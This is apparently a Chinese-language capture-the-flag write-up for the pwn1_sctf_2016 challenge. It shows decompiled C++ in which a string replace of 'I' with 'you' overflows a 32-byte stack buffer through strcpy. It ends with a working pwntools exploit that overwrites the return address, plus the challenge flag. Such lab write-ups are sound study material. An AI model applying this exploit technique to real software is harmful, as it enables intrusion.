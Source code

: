 # pwn1_sctf_2016

[题目地址](https://buuoj.cn/challenges#pwn1_sctf_2016)

不会c++就只能连1级题都懵逼了ಠ_ಠ。

程序的主要函数内容不多，就是看起来有点难受。

```c++
void vuln(void)

{
  char *__src;
  char input [32];
  basic_string local_20;
  basic_string<char,std::char_traits<char>,std::allocator<char>> you [7];
  allocator<char> local_15;
  basic_string<char,std::char_traits<char>,std::allocator<char>> I [7];
  allocator<char> local_d [5];
  
  printf("Tell me something about yourself: ");
  fgets(input,32,stdin);
  std::basic_string<char,std::char_traits<char>,std::allocator<char>>::operator=
            ((basic_string<char,std::char_traits<char>,std::allocator<char>> *)&::input,input);
  std::allocator<char>::allocator();
                    /* try { // try from 08049211 to 08049215 has its CatchHandler @ 08049311 */
  std::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string
            ((char *)you,(allocator *)&DAT_08049823);
  std::allocator<char>::allocator();
                    /* try { // try from 08049236 to 0804923a has its CatchHandler @ 080492f7 */
  std::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string
            ((char *)I,(allocator *)&DAT_08049827);
                    /* try { // try from 08049257 to 0804925b has its CatchHandler @ 080492e8 */
  replace(&local_20,&::input,I,you);
                    /* try { // try from 0804926d to 08049271 has its CatchHandler @ 080492d9 */
  std::basic_string<char,std::char_traits<char>,std::allocator<char>>::operator=
            ((basic_string<char,std::char_traits<char>,std::allocator<char>> *)&::input,&local_20);
                    /* try { // try from 08049278 to 0804927c has its CatchHandler @ 080492e8 */
  std::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string
            ((basic_string<char,std::char_traits<char>,std::allocator<char>> *)&local_20);
                    /* try { // try from 08049283 to 08049287 has its CatchHandler @ 080492f7 */
  std::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(I);
  std::allocator<char>::~allocator(local_d);
                    /* try { // try from 08049299 to 0804929d has its CatchHandler @ 08049311 */
  std::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(you);
  std::allocator<char>::~allocator(&local_15);
  __src = (char *)std::basic_string<char,std::char_traits<char>,std::allocator<char>>::c_str();
  strcpy(input,__src);
  printf("So, %s\n",input);
  return;
}
```

查了一些资料。[basic_string](https://learn.microsoft.com/zh-cn/cpp/standard-library/basic-string-class?view=msvc-170)类如其名，标准c++字符串类。[replace](https://blog.csdn.net/haha294182852/article/details/77567437)是字符串替换函数，虽然这道题里的replace用法和正常的c++的replace函数有些不一样，不过功能差不多。[c_str](https://blog.csdn.net/JIEJINQUANIL/article/details/51547027)函数返回一个指向正规C字符串的指针常量，内容与原本string串相同。这个函数是为了和c语言兼容，有一个要注意的地方：一定要使用strcpy()等函数来操作c_str()返回的指针，这也就解释了下一行strcpy(input,__src);的作用。

分析函数，fgets读取输入，正好32个，没有溢出。接下来的replace函数很复杂，但是结合c++原本replace函数的设计，猜测是把input中出现I的所有地方都替换成you，结果存在local_20里。真的就是猜，我也不知道对不对，因为下面有好几行我都看不出来作用。只能看出来最后来了个c_str，谁调用的也看不出来。继续猜，既然前面替换了，这替换肯定是有意义的。最后把__src重新复制到input里。（ida里是看得出来的）这题只有1级，最简单的想法是把替换后的字符串重新放入input中，那就可以栈溢出了。input距离返回地址有0x40个字节,我们先输入20个I，然后4个任意字符，然后返回地址，这样替换时20个I变为总长60字符的you，加上4个字符，64个正好溢出到返回地址。

```python
from pwn import *
p=remote("node4.buuoj.cn",26534)
payload=b'I'*20+b'a'*4+p32(0x08048f0d)
p.sendline(payload)
p.interactive()
```

### Flag
- flag{ac55d95e-a804-4340-8bd6-c5019a73b465}